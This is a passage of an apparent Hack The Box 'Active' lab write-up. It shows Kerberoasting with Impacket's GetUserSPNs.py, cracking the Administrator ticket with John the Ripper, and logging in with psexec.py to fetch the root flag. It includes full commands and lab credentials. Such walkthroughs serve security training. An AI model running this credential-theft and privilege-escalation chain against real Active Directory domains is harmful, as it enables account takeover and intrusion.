 They have a script in the /examples folder called GetUserSPNs.py that is used to find SPNs that are associated with a given user account. It will output a set of valid TGSs it requested for those SPNs.

![](https://miro.medium.com/max/904/1*Tv_IrQcTcUMYYHezr6DPdA.png)

Run the script using the SVC\_TGS credentials we found.

```text
./GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
```

* **target:** domain/username:password
* **-dc-ip**: IP address of the domain controller
* **-request**: Requests TGS for users and outputs them in JtR/hashcat format

We get back the following output.

![](https://miro.medium.com/max/1054/1*AUJY2mlHHxNu_KiSxL2Lpw.png)

We were able to request a TGS from an Administrator SPN. If we can crack the TGS, we’ll be able to escalate privileges!

**Note**: If you get a “Kerberos SessionError: KRB\_AP\_ERR\_SKEW\(Clock skew too great\)”, it’s probably because the attack machine date and time are not in sync with the Kerberos server.

Now that we have a valid TGS that is already in John the Ripper format, let’s try to crack it.

```text
john --wordlist=/usr/share/wordlists/rockyou.txt spn-admin.txt
```

We get back the password!

```text
Ticketmaster1968
```

![](https://miro.medium.com/max/961/1*P4pSfo8m5gL2fIZFkK7LZg.png)

To login as the administrator, we’ll use another Impacket script known as psexec.py. As shown in the help menu, you can run the script using the following command.

```text
# psexec.py domain/username:password@targetName
psexec.py active.htb/Administrator:Ticketmaster1968@active.htb
```

![](https://miro.medium.com/max/972/1*LB39WE2e7V24M6a79z10YA.png)

Navigate to the directory that contains the root.txt flag.

```text
cd C:\Users\Administrator\Desktop
```

Download the root.txt file to our attack machine.

```text
get root.txt
```
